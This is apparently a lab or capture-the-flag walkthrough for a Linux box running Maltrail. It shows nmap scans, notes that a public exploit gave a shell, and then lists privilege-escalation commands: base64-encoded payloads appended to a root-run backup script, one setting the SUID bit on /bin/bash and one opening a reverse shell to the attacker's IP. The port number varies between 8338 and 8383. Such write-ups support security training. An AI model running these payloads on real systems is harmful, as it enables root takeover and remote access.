









Nmap scan
```sh
nmap -p- --min-rate 5000 -T4 -Pn 192.168.137.32
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-20 14:59 IST
Nmap scan report for 192.168.137.32
Host is up (0.27s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8338/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 27.32 seconds
```

```sh
nmap -sC -sV -T4 -Pn -p 22,80,8383 192.168.137.32          
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-20 15:00 IST
Nmap scan report for 192.168.137.32
Host is up (0.16s latency).

PORT     STATE    SERVICE     VERSION
22/tcp   open     ssh         OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b9:bc:8f:01:3f:85:5d:f9:5c:d9:fb:b6:15:a0:1e:74 (ECDSA)
|_  256 53:d9:7f:3d:22:8a:fd:57:98:fe:6b:1a:4c:ac:79:67 (ED25519)
80/tcp   open     http        Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
8383/tcp filtered m2mservices
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.87 seconds
```

Visiting web server on port 80.

We performed dir brute forcing but found nothing interesting.

We visited another web server on port 8338.


We tried sqli login bypass payloads but it didn't work. We noticed that maltrail is present there. So we searched using searchsploit but didn't find anything. So we googled maltrail and found the exploit.




Downloaded the exploit and run it.

After running the exploit, we got the shell.



### Privilege Escalation
We checked sudo command and SUID permission but nothing interesting was there. So we checked writable files using below command.
```sh
find / -writable -type f 2>/dev/null
```


Another way to confirm this is using linpeas, we did that also.


According to the above image, the root owns it besides we are able to modify it. I tried a couple of basic reverse shells but neither of them worked. The following was an intelligent one:

- First we give a suid bit to /bin/bash binary and encoded with base64.
- The next thing is decoding and then running the /bin/bash that we give suid bit.
- To leverage this we need to append it to the full path of etc_Backup.sh script
```
echo -n "chmod u+s /bin/bash" | base64
echo "echo -n 'Y2htb2QgdStzIC9iaW4vYmFzaA=='|base64 -d|bash" >> /var/backups/etc_Backup.sh
ls -la /bin/bash
/bin/bash -p
```


Giving the suid mode to /bin/bash will give us the root shell by running it with -p flag:


### In this scenario we can use other payloads also
```sh
#at target machine  
echo -n "chmod u+s /bin/bash" | base64  
echo "echo -n 'Y2htb2QgdStzIC9iaW4vYmFzaA=='|base64 -d|bash" >> /var/backups/etc_Backup.sh  
#wait for a few second  
ls -al /bin/bash  
/bin/bash -p  
#You can use other payload as well such as  
echo -n "sh -i >& /dev/tcp/$KaliIP/80 0>&1" | base64  
echo "echo -n 'c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC40NS4xNzYvODAgMD4mMQ=='|base64 -d|bash" >> /var/backups/etc_Backup.sh
```
